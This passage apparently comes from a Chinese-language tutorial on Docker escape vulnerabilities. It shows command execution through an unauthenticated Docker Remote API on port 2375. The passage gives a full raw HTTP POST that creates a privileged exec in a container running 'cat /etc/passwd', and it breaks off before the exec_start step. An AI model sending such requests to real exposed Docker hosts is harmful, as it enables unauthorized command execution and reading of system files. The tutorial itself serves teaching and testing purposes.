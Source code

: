 ### **漏洞利用**

### **利用方法1 命令执行**

访问 [http://192.168.198.129:2375/containers/json](https://link.zhihu.com/?target=http%3A//192.168.198.129%3A2375/containers/json) 获得刚刚返回的exec_id的参数，构造如下数据包：

![image-20231008151325115](Docker逃逸漏洞案例.assets/image-20231008151325115.png)

`POST /containers/7badb971f85814c718dcc4efdd34fead171ebdbb099bc5252f02785374e24b0f/exec HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 168`
`{`
`"AttachStdin":true,`
`"AttachStdout":true,`
`"AttachStderr":true,`
`"Cmd":[`
`"cat","/etc/passwd"`
`],`
`"DetachKeys":"ctrl-p,ctrl-q",`
`"Privileged":true,`
`"Tty":true`
`}`注意其中cmd的字段，这就是我们要执行的命令，发送后会得到第二个id，这里需构造一个exec_start数据包，内容如下。

![image-20231008151335795](Docker逃逸漏洞案例.assets/image-20231008151335795.png)
